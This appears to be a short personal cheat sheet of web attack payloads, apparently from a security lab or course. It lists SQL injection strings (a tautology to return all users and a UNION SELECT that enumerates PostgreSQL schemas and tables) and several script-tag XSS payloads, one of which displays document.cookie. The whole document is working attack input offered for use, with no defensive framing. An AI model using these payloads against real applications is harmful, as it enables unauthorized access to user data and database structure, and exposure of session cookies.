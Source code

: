SQL INJECTION
-
//Use this to get all users
---
' or 1=1

//Use this to get the information about users and all the databases and their tables
---
' or 1=1 UNION SELECT null  AS id, schemaname as name, tablename as email, tableowner as password FROM pg_tables where '1' ='1


XSS

<script>
document.body.style.backgroundColor = "red";
</script>

<script>
alert( document.cookie );
</script>

<script>
document.body.style.transform = "rotate(45deg)";
</script>
